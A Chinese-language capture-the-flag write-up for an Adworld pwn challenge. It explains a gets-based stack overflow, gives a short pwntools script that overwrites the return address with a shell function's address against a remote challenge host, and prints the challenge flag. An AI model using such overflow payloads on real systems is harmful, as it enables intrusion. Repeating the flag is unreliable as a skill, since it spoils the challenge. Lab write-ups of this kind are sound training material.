

# 反应釜开关控制

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d6400d88-b84b-4939-a118-9772fad79aab_2&task_category_id=2)

这题3分。而且做出来的人不足1000，不应该很难吗？结果就这？

程序扔ghidra，main函数很普通。



- ### sprintf
  > 发送格式化输出到 str 所指向的字符串。
  - 声明：int sprintf(char *str, const char *format, ...)
  - 参数
    > str -- 这是指向一个字符数组的指针，该数组存储了 C 字符串.<br>
    > format -- 这是字符串，包含了要被写入到字符串 str 的文本。它可以包含嵌入的 format 标签，format 标签可被随后的附加参数中指定的值替换，并按需求进行格式化。format 标签属性是 %\[flags][width][.precision][length]specifier

比如上图的用法是把easy函数的地址存储到local_248里。

- ### write
  > 把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.
  - 声明：int write(int handle,void *buf,int len);
  - 参数
    > int handle  为要获取文件指针的文件句柄<br>
    > void *buf   为要写入的内容<br>
    > int len     为要写入文件的长度

第一个参数为1表示向命令行输出（stdout？）。因此第11行的作用是将输出local_248 9个字符长度的内容到命令行。9个字符大概是因为后面还有个\0。、

那很明显栈溢出了，gets出现看都不用看。这道题不知道怎么设计的，出题人想让你跳到easy里，easy里还有个normal，normal里就是shell了。但是吧，shell地址在程序里可以找到，那我为啥不直接跳到shell呢？

```python
from pwn import *
shell=0x004005f6
proc=remote("61.147.171.105",55231)
payload=b'a'*0x208+p64(shell)
proc.sendlineafter(">",payload)
proc.interactive()
```

这题唯一有问题的是我不知道怎么找偏移。注意左侧stack-0x208已经把local_208 512的长度算进去了，所以不用再加512。另外是0x啊，不要打成208了，我最开始怎么试都不对怀疑人生了。有的时候还要仔后面加b'a'*8填rbp，但这里不知道为什么不用。反正都试试，不差这几秒。

- ### Flag
  > cyberpeace{74866e5f9a9f3e58a4c260d1e59cc010}